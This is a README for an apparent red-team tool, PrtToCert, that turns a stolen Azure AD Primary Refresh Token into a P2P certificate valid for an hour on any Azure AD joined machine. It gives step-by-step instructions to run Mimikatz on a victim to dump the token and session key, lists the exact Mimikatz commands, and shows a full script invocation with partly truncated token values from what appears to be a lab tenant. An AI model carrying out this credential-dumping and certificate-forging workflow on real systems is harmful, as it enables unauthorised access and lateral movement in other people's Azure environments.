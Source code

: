 # PrtToCert
Request P2P certificate which valid for 1 hour to authenticate to any Azure AD joined machine.

## Requirements
* Python 2.7, 3.5+
* PyOpenSSL
* requests

## Usage

```
RequestCert.py [-h] --tenantId TENANTID --prt PRT --userName USERNAME --hexCtx HEXCTX --hexDerivedKey
                      HEXDERIVEDKEY [--passPhrase PASSPHRASE]
```

## Steps
* Run Mimikatz on the victim and store the PRT, tenantId, Identity and keyValue
* Run Mimikatz again with keyvalue and any context you want and create derived key
* Run the script with PRT, tenantId, Identity, context and derived key
* Generate P2P certificate from any computer as long as the PRT valid

## Example
```
Mimikatz:
  privilege::debug
  sekurlsa::cloudap
  token::elevate
  dpapi::cloudapkd
  
python RequestCert.py --tenantId 2c240ecc-...truncated --prt QVFBQkFBQUFBQUFHVl9idjIxb1FRNFJPcWgwXzEtdEFnbm9IbkFCZkgxcG1zbFFERENFY195OXFMTEF5bDhpZ3FrQ1RZa0dTdElqa3pGcXZ5...truncated --userName Gadmin@ResearchAadLabEnv.onmicrosoft.com --hexCtx e096b37dc0d8e5cde438...truncated --hexDerivedKey b8a39c7b3b7e7c859b...truncated
```
